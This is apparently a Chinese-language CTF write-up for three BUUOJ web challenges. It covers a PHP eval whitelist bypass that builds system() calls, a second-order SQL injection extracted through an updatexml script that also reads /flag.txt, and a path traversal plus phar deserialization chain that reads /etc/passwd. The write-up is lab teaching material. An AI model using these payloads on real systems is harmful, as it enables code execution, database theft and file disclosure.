

## Love Math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

利用数学函数构造eval可以执行的webshell进而读取flag,有一点像无参数RCE

数学函数中有一个特殊函数为`base_convert`

`base_convert ( string $number , int $frombase , int $tobase ) : string`

>返回一**字符串**,包含`number`以`tobase`进制的表示,`number`本身的进制由`frombase`指定,`frombase`和`tobase`都只能在2和36之间(包括2和36),高于十进制的数字用字母`a-z`表示 

`base_convert(1751504350,10,36)`得到`system`

`base_convert(784,10,36)`得到`ls`

`base_convert(724009,10,36)`得到`find`

`system('ls')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(784,10,36))`

`system('find')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(724009,10,36))`

但是buuoj复现的题目的flag并不在www目录下,尝试对根目录进行搜索,因此需要对` /`进行构造

> 在php中可以对字符串进行异或,同时php中的函数名使用字符串来表示

```php
var_dump(urlencode("asdf"^"qwer"));
var_dump(urlencode("asdf"^"qwer0"));
/*
string(12) "%10%04%01%14"
string(12) "%10%04%01%14"
*/
```

```php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($i=0;$i<count($whitelist);++$i){
    for($j=0;$j<count($whitelist);++$j){
        for($k=0;$k<0xff;++$k){
            $s=$whitelist[$i]^$whitelist[$j]^dechex($k);
            if($s==' /'){
                var_dump($whitelist[$i]);
                var_dump($whitelist[$j]);
                var_dump($k);
            }
        }
    }
}
```

` /`的payload为`asin^pi^dechex(21)`

`system('ls /')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(784,10,36).(asin^pi^dechex(21)))`,可以对payload进行缩短`?c=($pi=base_convert)(1751504350,10,36)($pi(784,10,36).(asin^pi^dechex(21)))`

得到flag在根目录下为`/flag`

在无参数RCE中有一个函数为`getallheaders`,构造`system(getallheaders(){xxx})`的payload即可执行任意代码,但是在php中直接`base_convert("getallheaders",36,10)`会出问题,因此使用`base_convert("getallheaders",30,10)`代替

```php
<?php
var_dump(base_convert(base_convert("getallheaders",36,10),10,36));
//string(13) "getallheadc08"
var_dump(base_convert(base_convert("getallheaders",30,10),10,30));//8768397090111664438
//string(13) "getallheaders"
```

payload为`?c=($pi=base_convert)(1751504350,10,36)($pi(8768397090111664438,10,30)(){1})`

添加header为`1 => ls`,即可执行`system('ls')`




---

> 特殊技巧

1. 除了使用`cat`命令读取文件外,使用`nl`命令也可以进行读取文件

2. `cat /*`的16进制为`636174202f2a`,`echo hex2bin('636174202f2a');`可以得到`cat /*`

3. 构造`$_GET`来手动传入参数

`'1517'^'nrtc'=='_GET'`

payload`?c=$pi=base_convert;$pi=$pi(53179,10,36)^$pi(1109136,10,36);${$pi}{0}(${$pi}{1})&0=system&1=cat /flag`


## CyberPunk

首页查看源代码,发现提示`?file=`可能可以读取源代码,成功读取

发现在几个主要的页面的存在sql注入的过滤

```php
$pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
```

而在`change.php`中存在二次注入

```php
$address = addslashes($_POST["address"]);
...
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
$result = $db->query($sql);
if(!$result) {
	echo 'error';
	print_r($db->error);
	exit;
}
```

`addslashes`在`' " \ NULL`后面添加`\`进行转义,但是`\`并不会写入到数据库中,在写入数据库的时候还是保留了原来的数据

而在数据存入到数据库后,再次被取出时没有进行再一次的转义,因此造成了二次注入

用`updatexml`进行报错注入(该语句对输出的字符长度做了限制,其最长输出32位)

```python
import requests
import time

url = "http://8af56c85-5ba8-4a09-9c16-144d33231017.node3.buuoj.cn"


def confirm():
    payload = url + "/confirm.php"
    post_data = {'user_name': 'asdf', 'phone': 'asdf', 'address': 'asdf'}
    requests.post(url=payload, data=post_data)


def delete():
    payload = url + "/delete.php"
    post_data = {'user_name': 'asdf', 'phone': 'asdf'}
    requests.post(url=payload, data=post_data)


def change(sql):
    payload = url + "/change.php"
    post_data = {'user_name': 'asdf', 'phone': 'asdf', 'address': sql}
    requests.post(url=payload, data=post_data)
    r = requests.post(url=payload, data=post_data)
    return r.text


def get_schema_name():
    for i in range(1, 100, 25):
        sql = "1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),%d,%d) from information_schema.schemata),0x7e),1) #" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


def get_table_name():
    for i in range(1, 100, 25):
        sql = "1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),%d,%d) from information_schema.tables where table_schema='ctfusers'),0x7e),1) #" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


def get_column_name():
    for i in range(1, 5000, 25):
        sql = "1' where user_id=updatexml(1,concat(0x7e,(select substr(group_concat(column_name),%d,%d)from information_schema.columns where table_name='user'),0x7e),1)#" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


def get_detail():
    for i in range(1, 100, 25):
        sql = "1' where user_id=updatexml(1,concat(0x7e,(select substr(group_concat(user_name),%d,%d) from ctfusers.user),0x7e),1)#" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


get_schema_name()
get_table_name()
get_column_name()
get_detail()
```

但是`flag`不在数据库中???(ctftraining库中有个FLAG表,但是读不出来...)

看`wp`说在根目录下`/flag.txt`中???

```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,40)),0x7e),1)#
```


## Dropbox

通过`download.php`来读取源代码

```
POST /download.php HTTP/1.1
Host: 6bf1e8b9-43fe-4ea5-bb12-5157beed00dd.node3.buuoj.cn
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://6bf1e8b9-43fe-4ea5-bb12-5157beed00dd.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://6bf1e8b9-43fe-4ea5-bb12-5157beed00dd.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=c09d565f0771a7a544d94f9e93e8b13c
Connection: close

filename=../../download.php
```

主要对`class.php`进行审查,注意到`File::open`中存在`file_exists($filename)`,`file_exists`可以造成`phar`反序列化

1. `File::close`可以进行文件读取
2. `User::__destruct`执行了`$this->db->close();`,而`FileList::__call`会在`FileList`被调用一个不存在的函数时调用,而`User::__destruct`中的`$this->db->close();`恰好满足了这一步骤
3. 假设`User->db`执行`File`,则可以进行文件读取,但是除了读取文件外还需要进行文件内容的输出
4. `FileList::__destruct`会进行输出

```php
public function __call($func, $args) {//User::__destruct->FileList::__call,$func=close
	array_push($this->funcs, $func);
	foreach ($this->files as $file) {
		$this->results[$file->name()][$func] = $file->$func();//$file=File $func=close $file->$func()=File::close=file_get_contents
	}
}
```

可以构造payload生成phar文件

```php
<?php
    class User{
        public $db;
    }
    class FileList{
        private $files=array();
        private $results=array();
        private $funcs=array();
        public function __construct($class){
            $this->files[]=$class;
        }
    }
    class File{
        public $filename='/etc/passwd';
    }
    $user=new User();
    $file=new File();
    $filelist=new FileList($file);
    $user->db=$filelist;
    var_dump($user);

    @unlink("asdf.phar");
    $phar=new Phar("asdf.phar");//后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");//设置文件头
    $phar->setMetadata($user);
    $phar->addFromString("test.txt","asdfghjkl");
    $phar->stopBuffering();
    @system("mv asdf.phar asdf.gif");
?>
```


注意到在`download.php`中存在`open_basedir`限制`ini_set("open_basedir", getcwd() . ":/etc:/tmp");`,而在`delete.php`中并无此限制,因此利用`delete.php`来进行phar反序列化

> tmlgb,flag在/flag.txt中...


